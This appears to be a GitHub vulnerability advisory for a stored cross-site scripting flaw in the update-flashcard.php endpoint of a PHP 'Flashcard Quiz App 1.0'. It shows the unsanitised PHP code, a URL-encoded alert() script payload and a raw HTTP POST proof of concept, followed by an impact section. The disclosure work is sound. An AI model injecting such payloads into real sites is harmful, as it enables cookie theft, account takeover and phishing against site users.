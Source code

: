 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Flashcard Quiz App Using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17160/flashcard-quiz-app-using-php-and-mysql-source-code.html) <br/>

**Affected Version**:
> Flashcard Quiz App Using PHP and MySQL 1.0

**Affected Site Page**: 
> /flashcard-quiz/endpoint/update-flashcard.php<br/>

**Affected Code**: 
> </update-flashcard.php> <br/>

There is no input sanitization present when updating flashcards, making the web application vulnerable to XSS.

```php
<?php
include("../conn/conn.php");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_POST['question'], $_POST['answer'])) {
        $cardID = $_POST['tbl_card_id'];
        $question = $_POST['question'];
        $answer = $_POST['answer'];

        try {
            $stmt = $conn->prepare("UPDATE tbl_card SET question = :question, answer = :answer WHERE tbl_card_id = :tbl_card_id");
            
            $stmt->bindParam(":tbl_card_id", $cardID, PDO::PARAM_STR);
            $stmt->bindParam(":question", $question, PDO::PARAM_STR);
            $stmt->bindParam(":answer", $answer, PDO::PARAM_STR);

            $stmt->execute();

            header("Location: http://localhost/flashcard-quiz/");

            exit();
        } catch (PDOException $e) {
            echo "Error:" . $e->getMessage();
        }

    } else {
        echo "
            <script>
                alert('Please fill in all fields!');
                window.location.href = 'http://localhost/flashcard-quiz/';
            </script>
        ";
    }
}
?>

```

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Allows XSS by placing untrusted code on the parameters `question` and `answer`.

Payload used is `%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E` for both parameters.

```http 
POST /flashcard-quiz/endpoint/update-flashcard.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Connection: close

tbl_card_id=3&question=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E&answer=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E
```

![image](https://github.com/smurf-reigz/security/assets/48426940/ab39c7bb-ef81-4b9f-9e8f-64bf1ac16518)


## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."
